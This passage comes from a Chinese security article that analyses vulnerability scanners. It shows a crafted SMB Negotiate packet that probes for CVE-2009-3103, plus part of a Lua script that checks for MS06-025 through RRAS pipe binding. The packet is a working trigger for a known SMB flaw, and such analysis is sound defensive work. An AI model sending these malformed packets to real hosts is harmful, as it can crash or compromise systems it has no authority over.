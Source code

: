 ![enter image description here](http://drops.javaweb.org/uploads/images/2a00b655456e320f5fbc4a23d8e2f032886f3dde.jpg)

### 4、CVE-2009-3103漏洞

**（1）CVE-2009-3103漏洞扫描部分源码如下：**

```
host = "IP_ADDR", 445
buff = (
"\x00\x00\x00\x90" # Begin SMB header: Session message
"\xff\x53\x4d\x42" # Server Component: SMB
"\x72\x00\x00\x00" # Negociate Protocol
"\x00\x18\x53\xc8" # Operation 0x18 & sub 0xc853
"\x00\x26"# Process ID High: --> :) normal value should be "\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xfe"
"\x00\x00\x00\x00\x00\x6d\x00\x02\x50\x43\x20\x4e\x45\x54"
"\x57\x4f\x52\x4b\x20\x50\x52\x4f\x47\x52\x41\x4d\x20\x31"
"\x2e\x30\x00\x02\x4c\x41\x4e\x4d\x41\x4e\x31\x2e\x30\x00"
"\x02\x57\x69\x6e\x64\x6f\x77\x73\x20\x66\x6f\x72\x20\x57"
"\x6f\x72\x6b\x67\x72\x6f\x75\x70\x73\x20\x33\x2e\x31\x61"
"\x00\x02\x4c\x4d\x31\x2e\x32\x58\x30\x30\x32\x00\x02\x4c"
"\x41\x4e\x4d\x41\x4e\x32\x2e\x31\x00\x02\x4e\x54\x20\x4c"
"\x4d\x20\x30\x2e\x31\x32\x00\x02\x53\x4d\x42\x20\x32\x2e"
"\x30\x30\x32\x00"
)

```

**（2）分析**

十六进制字符串“`0x00000000`到`202e30303200`”请求，通过`ASCII`编码可以看出是在探测`NTLM`和`SMB`协议的版本。无响应，无此漏洞。

![enter image description here](http://drops.javaweb.org/uploads/images/4907b7e22f490718957fb9957247ac3610e138c5.jpg)

### 5、MS06-025漏洞

**（1）MS06-025漏洞扫描部分源码如下：**

```
--create the SMB session
--first we try with the "\router" pipe, then the "\srvsvc" pipe.
local status, smb_result, smbstate, err_msg
status, smb_result = msrpc.start_smb(host, msrpc.ROUTER_PATH)
if(status == false) then
err_msg = smb_result
status, smb_result = msrpc.start_smb(host, msrpc.SRVSVC_PATH) --rras is also accessible across SRVSVC pipe
if(status == false) then
    return false, NOTUP --if not accessible across both pipes then service is inactive
end
end
smbstate = smb_result
--bind to RRAS service
local bind_result
status, bind_result = msrpc.bind(smbstate, msrpc.RASRPC_UUID, msrpc.RASRPC_VERSION, nil)
if(status == false) then 
msrpc.stop_smb(smbstate)
return false, UNKNOWN --if bind operation results with a false status we can't conclude anything.
End

```
